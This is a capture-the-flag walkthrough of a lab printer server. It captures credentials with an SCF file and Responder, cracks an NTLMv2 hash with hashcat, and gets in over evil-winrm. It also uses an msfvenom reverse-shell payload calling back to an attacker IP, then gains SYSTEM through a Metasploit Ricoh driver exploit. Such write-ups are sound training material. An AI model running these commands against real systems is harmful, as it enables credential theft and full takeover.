

### Task 1

We're prompted for log on credentials when accessing the target over HTTP. What username is disclosed when looking at the HTTP response headers?

We use curl with the option for fetching headers only ``curl -I <target_ip>`` and see on the ``WWW-Authenticate`` the username admin.


### Task 2

Weak passwords are all too common and this target is no exception. What is the password for this target's login?

Before using any automated tools, we try with the default, common password ``admin`` and it gets us in. On the main page we are presented with a MFP Firmware Update Center.


### Task 3

There are several kinds of files that are commonly dropped into a file share to target other users who may browse to the share. If the user browses to the share, their host will try to authenticate to the attacker. What is the file extension that can be uploaded here to trigger that connection?

The file that is asked here, has the extension ``.scf`` which stands for Shell Command File. This file can be placed on a writable SMB share or web-based file upload to force outbound authentication requests. For more detailed information visit [MITRE ATT&CK](https://attack.mitre.org/techniques/T1187/)

### Task 4

We've intercepted an Net-NTLMv2 hash with Responder. What is the mode in Hashcat required to crack this hash format?

When Responder intercepts a Net-NTLMv2 hash, the format looks like:

```
USERNAME::DOMAIN:ServerChallenge:NTProofStr:Blob
```

This structure corresponds exactly to the format supported by Hashcat mode 5600 which is backed up by the Hashcat official documentation [Hashcat Generic hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Task 5

What is the tony user's password?

To solve this task, we will start responder ``sudo responder -I tun0`` and then upload a scf file to the file share via the printer upload form that would trigger an SMB authentication. We create a file as follows:

```
[Shell]
Command=2
IconFile=\\<host_ip>\share\icon.ico
[Taskbar]
Command=ToggleDesktop
```

This works, and the Net-NTLMv2 hash is captured by Responder because this upload is reviewed manually and thus opened as the web page explains.


As mentioned in the previous task, the full hash string can be cracked using Hashcat mode 5600. We create a file called tony_hash with this hash, we run ``hashcat -m 5600 -a 0 tony_hash.txt /usr/share/wordlists/rockyou.txt`` and the password is cracked.

### Task 6

Submit the flag located on the tony user's desktop.

We will first list the shared folders on the target Microsoft-DS by running ``smbclient -L //<target_ip> -U 'tony'`` using the user tony's password we found in the previous task. 


Then we can try connecting directly to the ``C$`` default share by running ``smbclient //<target_ip>/C$ -U 'tony'`` which gave us access denied. We then try ``crackmapexec smb <target_ip> -u tony -p 'liltony' --shares`` 


This validates that the user does not have access but we see that Windows 10 Enterprise is used which by default has WinRM installed and often enabled.

``crackmapexec winrm <target_ip> -u tony -p liltony``


Since the service is enabled we can use ``evil-winrm -i <target_ip> -u tony -p liltony``. We have access and navigating to tony's Desktop we get the flag by ``cat user.txt``.

10.129.192.136

### Task 7

What is the filename that stores the command history for PowerShell for tony?

Based on [Microsoft Documentation](https://learn.microsoft.com/en-us/powershell/module/psreadline/get-psreadlineoption?view=powershell-7.5) the location of the command history can be revealed from the property ``HistorySavePath`` after running ``Get-PSReadlineOption``. Trying this did not work on the WinRM because it is not a fully interactive terminal. We try to view the default location to see if the history is stored there by ``type "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt"`` and it works, thus, the filename is ``ConsoleHost_history.txt``.

### Task 8 

Looking at the Powershell history we can see some actions being performed with a specific printer type. Research of this should show that it's exploitable for privilege escalation and a module is available for the Metasploit framework. What is the module name?

Looking through the output of the command history we see the driver name and name for the printer. Looking up on the CVE database online, we find the CVE to be ``CVE-2019-19363``. We spin Metasploit by ``msfonsole`` and search for the CVE ID by ``search cve:2019-19363`` finding the module name. 


### Task 9 

Initial attempts to exploit this vulnerability may fail under specific logon types such as non-interactive, but in this scenario we can switch to an interactive logon. What command can be used in Metasploit to switch to an interactive logon process?

First, we generate a Meterpreter Payload ``msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.95 LPORT=4444 -f exe > shell.exe``. Then, run ``msfconsole`` to spin up a metasploit listener and start the module previously found by:

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <host_ip>
set LPORT 4444
run
```

Then, we upload the paylod inside the Evil-WinRM session ``upload shell.exe``and execute it ``.\shell.exe``. Going back to the Metasploit we get an interactive shell back.



We need to ``backrgound`` that session and then start the module to exploit the vulnerable driver with the known CVE we found in the previous task. 

```
use exploit/windows/local/ricoh_driver_privesc
set session <session_id>
set LHOST <host_ip>
set payload windows/x64/meterpreter/reverse_tcp
run
```

Even though it seems that is working, the terminal hungs. The Ricoh driver exploit requires an interactive logon session with GUI access. So we need to use the ``migrate`` command to migrate the Meterpreter session into a GUI-based process. Bringing back the metasploit session by running ``sessions -i <session_id>`` and listing the processes ``ps`` we see that a good candidate is the ``explorer.exe``. We migrate by running ``migrate <explorer_id>``, then run the exploit again and it works. To validate we run ``getuid`` and we see that we have SYSTEM rights. 


### Task 10 

In addtion to the 'RICOH PCL6 UniversalDriver V4.23' vulnerabiltiy, this target is also vulnerable to CVE-2021-1675 aka PrintNightmare. Is it possible to elevate to SYSTEM privileges with this CVE?

Loocking up this CVE on the CVE database, it is confirmed that there is a Metasploit module that if used, results in remote code execution as NT \AUTHORITY\SYSTEM.

### Task 11

Submit the flag located on the administrator's desktop.

From Task 9, we already have SYSTEM privileges. Navigating to the administrator's desktop we get the root flag by running ``cat root.txt``.